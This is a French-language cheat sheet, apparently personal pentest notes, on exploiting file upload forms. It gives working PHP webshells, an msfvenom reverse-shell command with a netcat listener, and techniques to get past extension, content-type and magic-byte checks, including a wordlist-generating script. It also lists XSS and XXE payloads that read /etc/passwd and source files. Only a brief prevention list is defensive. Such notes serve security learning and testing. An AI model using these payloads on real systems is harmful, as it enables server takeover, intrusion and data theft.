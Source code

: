 # File Upload Attack

----

- ###### Étape 1 : Identifier le framework ou l'environnement

- ###### Étape 2 : Uploader le fichier correspondant avec le bon spcript 

- ###### Étape 3 : se rendre sur le lien ou écouter le port de l'application

-----
## Comment Uploader :

##### Quelques scripts ( PHP )

* ###### Avoir le Hostname 
  ```php
    <?php system('hostname'); ?>
  ```
* ######  Creer un webshell custom en php
  ```php
    <?php system($_REQUEST['cmd']); ?>
  ```
  * **Pour communiquer avec le webshell, on utilise :**
    ```
     <www.linkToFile.php>?cmd=<maCommande>
    ```
* ###### Autres webshell en php
  - [phpbash ( bash avec UI )](https://github.com/Arrexel/phpbash)
  - web shells in Seclist ( Seclists/Webshells) 

* ###### Revese Shell
  **Avec msfvenom**
    ```php
    msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
    ```
  **Autres reverse shell php**


  - **Communiquer avec le reverse shell**
    ```bash
     # upload file, then
     nc -lvnp OUR_PORT
     # go to the link of the file in parallel
    ```

  - Payload All The things > Upload Insecure Files 
  - Seclists
-----

### Cas particulier :
  #### Dans le cas d'une image sécurisé :
  ###### Méthode 1 : 
  - **Changer le Content-Type + supprimer toute fonction front de validation**
  ###### Méthode 2 : cas de blacklist  
  * [ ] _sur windows, les extensions de fichier sont insensible à la casse donc on peut bypasser la blacklist avec **pHp** au lieu de **.php**_ 
  
  * [ ] on peut essayer le **fuzzing** de l'extension du fichier lors de l'upload ( burp intruder )  avec le dictionnaire  >> extensions utilisables ou non
    * **Web-extensions de Seclists**
    * **Payload all the things >> upload insecure file**
    * _Steps_ :
      - Aller dans burp suite intruder 
      - Desactiver l'encodage url dans payload
      - charger le dictionnaire ou selectionner un disponible 
      - start Attack
      - regarder les résultats -> fichiers blacklisté / non blacklisté

  ###### Méthode 3 : cas de whitelist
  * [ ] _la whitelist n'autaurise qu'un certain type de fichier, ainsi, on utilise la méthode de la blacklist pour connaître les extensions autorisés_
  - **Pour bypasser la whitelist, on peut utiliser la méthode de la double extension ex : shell.php -> shell.php.png ou shell.php%00.png**
      - payload all the thing upload tricks
      - PayloadsAllTheThings/Upload Insecure Files/Extension PHP
/extensions.lst
      - character injection ( chaque caractère à un contexte précis)

      - **script**
        ```shell
          # script pour generer une wordlist avec des extensions pour bypass whitelist
          for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
            for ext in '.php' '.phps'; do
                echo "shell$char$ext.jpg" >> wordlist.txt
                echo "shell$ext$char.jpg" >> wordlist.txt
                echo "shell.jpg$char$ext" >> wordlist.txt
                echo "shell.jpg$ext$char" >> wordlist.txt
            done
          done
        ```
      - **fuzzing character injection** ( for the get and the post in order to see the the correct file name)

  ###### Méthode 4 : file content validation
  * [ ] _utiliser fuzzing content type avec Seclist worlist content type_
  ###### Méthode 5 : MIME-Type. Multipurpose Internet Mail Extensions (MIME) Validation
  * [ ] _validation à travers le format par byte de la data ( file signature, magic bytes ..)_
      * **Pour le bypass, on peut simuler la signature d'un fichier gif avec GIF8**
      ```bash
        # filename="moncode.php" ...
        GIF8
        <monCode>
      ```
      * **puis utiliser le fuzzing et les autres méthodes combiné pour upload et ensuite get ( burp intruder )**
  ###### Méthode 6 : validation plus sécurisé
  * [ ] _Dans le cas des upload ( HTML, JS, SVG, GIF ): on peut faire une XSS_
    ```bash
      # pour l'image

      exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' image.jpg
      
      # pour l'xml
      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
      <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
          <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
          <script type="text/javascript">alert("window.origin");</script>
      </svg>
    ```
  
  * [ ] _Pour un : XML, SVG, PDF, PPT, DOC , une injection XXE est possible_
    ```bash
      # injection xxe
      <?xml version="1.0" encoding="UTF-8"?>
      <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
      <svg>&xxe;</svg>
      # [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ] 
      # pour charger index.php
    ```

    * [ ] _Creation d'un programme de DoS (Zip, PNG, JPG) avec XXE, ( zip bomb, pixel flood) ou encore un SSRF ou file transversal attack_

-----
### Autres attaques de file upload :

*  Infection dans le nom du fichier 
*  Upload Directory Disclosure
*  Windows-specific Attacks
*  Advanced file upload Attacks ( bug bounty eports and CVE)

-----
### PREVENTION

* générer des noms de fichier aléatoire
* mettre les fichiers uploadé sur un autre serveur
* creer une blacklist et une whitelist
* content-type validation
* cacher le repertoire / lien pour upload
* limiter la taille des fichiers
* faire des mises à jour
* scan anti malware
* firewall pour web app ( WAF)
* 

-----
## Ressources

###### [Port Swigger Academy](https://portswigger.net/web-security/file-upload)

###### [YesWeHack Blog](https://blog.yeswehack.com/yeswerhackers/file-upload-attacks-part-2/)
  
###### [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload)

###### [_synactiv_](https://www.synacktiv.com/en/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there)

###### [_file signature ( magic bytes )_](https://en.wikipedia.org/wiki/List_of_file_signatures)